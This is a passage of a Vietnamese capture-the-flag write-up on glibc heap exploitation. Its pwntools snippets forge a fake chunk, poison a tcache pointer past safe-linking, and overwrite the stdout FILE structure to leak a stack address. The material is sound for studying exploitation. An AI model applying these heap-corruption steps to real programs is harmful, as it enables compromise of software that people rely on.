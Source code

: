 ![Alt text](image-2.png)

## Fake chunk
```python
payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
write(0, 0x300-0x10,payload)
```
- Ta sẽ dùng chunk 9 để fake, thay đổi size 
- Mình malloc bớt chunk ra khỏi tcache, mục đích là mình tận dụng count của 0x100
- Nếu một size khác thì mình cần malloc 2 3 chunk và free chúng đi để biến count của size đó tăng lên, lúc lấy ra mới lấy được 2 chunk ra
- Nếu không malloc 2 3 chunk đệm thì lúc này count của bằng 1 và ta cần 2 lần malloc mới lấy được chunk fake ra
```python
for i in range(3):
    write(0xa,0x100-8,b"A")
free(9)
free(0)
```
![Alt text](image.png)
![Alt text](image-1.png)
- Đã có chunk 9 ở trong tcache
- Tiếp tục fake fd pointer chunk 9
```python
payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
payload+= p64((libc.sym['_IO_2_1_stdout_']-0x10) ^ (heap_leak+0xa10) >> 12)
write(0, 0x300-0x10,payload)
```
- Do cơ chế bảo vệ ở trên mình nói nên ta có dòng thứ 3
![Alt text](image-3.png)
- Bây giờ ta sẽ set up để leak stack
```python
info("stdout: " + hex(libc.sym._IO_2_1_stdout_))
write(1, 0x100-0x10, "a")
payload=flat(
    0,libc.sym['_IO_file_jumps'],
    0xfbad1800 , #flag
    0xfbad1800 ,0xfbad1800 ,0xfbad1800 , #read_ptr, end, base
    libc.sym['environ'],libc.sym['environ']+8, #write base, ptr
    p64(libc.sym['_IO_2_1_stdout_'] +131)*2,p64(libc.sym['_IO_2_1_stdout_']+132),
)
write(2, 0x100-0x10, payload)
stack = u64(p.recv(8))
info("Stack: " + hex(stack))
target=stack-0x168
```